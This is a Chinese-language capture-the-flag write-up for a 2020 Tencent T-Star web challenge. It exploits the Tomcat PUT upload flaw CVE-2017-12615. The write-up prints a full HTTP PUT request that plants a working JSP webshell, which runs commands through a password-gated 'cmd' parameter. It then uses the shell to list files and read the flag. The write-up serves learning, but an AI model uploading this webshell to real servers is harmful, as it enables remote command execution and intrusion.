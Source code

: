 ```yaml
---
title: Web - 小猫咪踩灯泡
description: 2020-腾讯犀牛鸟网络安全-T-Star-高校挑战赛
---
```


## 解题思路

- 题目描述提到 tomcat 远程代码执行（CVE-2017-12615）
- 使用 BurpSuit 拦截网页的 GET 请求，并发送到 Repeater
- 构造 webshell 并发送<br>
    ```
    PUT /hack.jsp/ HTTP/1.1
    Host: f5b9bbe0.yunyansec.com
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    If-Modified-Since: Thu, 20 Jun 2019 10:03:08 GMT
    If-None-Match: W/"5619-1561024988000"
    Cache-Control: max-age=0
    Content-Length: 660

    <%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp
    +"\\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if("023".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println(":-)");}%>
    ```
    ![构造 webshell](img/t-star-tomcat01.jpg)
- 此时可通过`http://f5b9bbe0.yunyansec.com/hack.jsp?&pwd=023&cmd=ls`远程查看文件目录下内容，发现`flag.txt`<br>
![找到 Flag 文件](img/t-star-tomcat02.jpg)
- `cat`一下即可获取 Flag<br>
![Catch the flag!](img/t-star-tomcat03.jpg)

## 参考资料

- [Tomcat 任意文件上传漏洞CVE-2017-12615复现测试](https://blog.csdn.net/qq1124794084/article/details/78044756)